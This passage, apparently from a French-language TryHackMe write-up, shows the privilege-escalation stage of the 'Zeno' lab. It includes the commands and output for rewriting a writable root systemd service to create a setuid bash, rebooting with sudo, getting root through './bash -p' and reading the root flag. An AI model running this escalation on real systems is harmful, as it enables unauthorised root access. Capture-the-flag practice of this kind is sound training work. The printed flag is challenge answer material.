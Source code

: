 ```bash

[Install]
WantedBy=multi-user.target
```

On voit que l'on peut modifier ExecStart pour fabriquer un shell setuid.   

```bash
(remote) edward@zeno:/home/edward$ cat /etc/systemd/system/zeno-monitoring.service 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/;chmod +xs /home/edward/bash"

[Install]
WantedBy=multi-user.target
```

On modifie le service pour qu'il donne le setuid à notre bash

```bash
(remote) edward@zeno:/home/edward$ sudo -u root /usr/sbin/reboot

Session terminated, killing shell...Terminated
 ...killed.

```

On redémarre le système.  

```bash
tim@kalu:~/Bureau/tryhackme/write-up$ pwncat edward@zeno.thm
[15:40:20] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
Password: ********************
[15:41:29] zeno.thm:22: normalizing shell path                                                                                                                                                                                  manager.py:504
           zeno.thm:22: registered new host w/ db                                                                                                                                                                               manager.py:504
(local) pwncat$                                  
(remote) edward@zeno:/home/edward$ ls -al bash
-rwsr-sr-x. 1 root root 964536 Nov  5 15:40 bash
(remote) edward@zeno:/home/edward$ ./bash -p
(remote) root@zeno:/home/edward# id
uid=1000(edward) gid=1000(edward) euid=0(root) egid=0(root) groups=0(root),1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
(remote) root@zeno:/home/edward# cat /root/root.txt
THM{b187ce4b85232599ca72708ebde71791}
```
